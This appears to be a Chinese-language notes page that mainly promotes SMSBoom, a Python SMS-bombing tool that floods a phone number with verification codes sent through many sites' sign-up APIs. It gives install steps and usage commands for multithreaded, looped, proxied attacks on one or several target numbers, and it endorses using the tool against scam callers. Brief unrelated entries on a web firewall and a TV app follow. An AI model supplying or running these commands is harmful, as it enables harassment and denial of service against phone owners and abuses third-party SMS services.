 资料来源：<br/>
[smsboom](https://github.com/OpenEthan/SMSBoom)


## smsboom
在 GitHub 上看到一个高一美术生写的一个健壮免费的python短信轰炸程序，专门炸坏蛋蛋，百万接口，多线程全自动添加有效接口，支持异步协程百万并发，自己对自己的号码用了一下，确实是短信轰炸，要不是及时 Ctrl C，怕是手机要崩溃。

其实原理很简单，明白之后，你也可以做一个。就是调用很多网站注册账户时发送手机验证码的接口，给要指定的手机号发送无穷无尽的验证码，看个图片就明白了

![63b87ab058adf9bbf7a6fc10c0271ca5](img\63b87ab058adf9bbf7a6fc10c0271ca5.jpg ':size=60%')：

## 项目地址

https://github.com/WhaleFell/SMSBoom

## 使用方法

下载，并安装依赖：

```javascript
git clone https://github.com/AdminWhaleFall/SMSBoom.git/
cd SMSBoom
pip install requirements.txt 
```

复制

单线程调用：

```javascript
python smsboom.py oneRun -p 198xxxxxxxx
```

复制

多线程调用：

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx
```

复制

协程调用：

```javascript
python smsboom.py asyncRun -p 198xxxxxxxx
```

复制

### **命令示例**

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),只轰//炸一波。

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx
```

复制

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60
```

复制

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60 -i 30
```

复制

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60 -i 30 -e
```

复制

启动64个线程,轰//炸多个人的手机号(198xxxxxxxx,199xxxxxxxx),启动循环轰//炸, 轮番轰炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx -p 199xxxxxxxx -f 60 -i 30 -e
```

复制

## 最后

好用是真的好用，但请不要滥用，我能想到的就是对那些是手机号的诈骗电话可以试一下。此外，这个仓库可以作为我们学习多线程和协程的一个有趣的开源项目。如果觉得有帮助，请点赞。



## 数据安全

https://github.com/chaitin/SafeLine

![b6ffd4219c5d464d86ef6744032d6def~tplv-obj_3802_2160](img/b6ffd4219c5d464d86ef6744032d6deftplv-obj_3802_2160-1700705753469.gif)

![4384063524c34d89b2deb5f358c81dfd~tplv-obj_3794_2160](img/4384063524c34d89b2deb5f358c81dfdtplv-obj_3794_2160-1700705760358.gif)


## tv boxtvbox

TV box 是一个很好用的电视源软件

https://github.com/liu673cn/box  （github）

https://www.mydigit.cn/thread-378643-1-1.html （资料列表）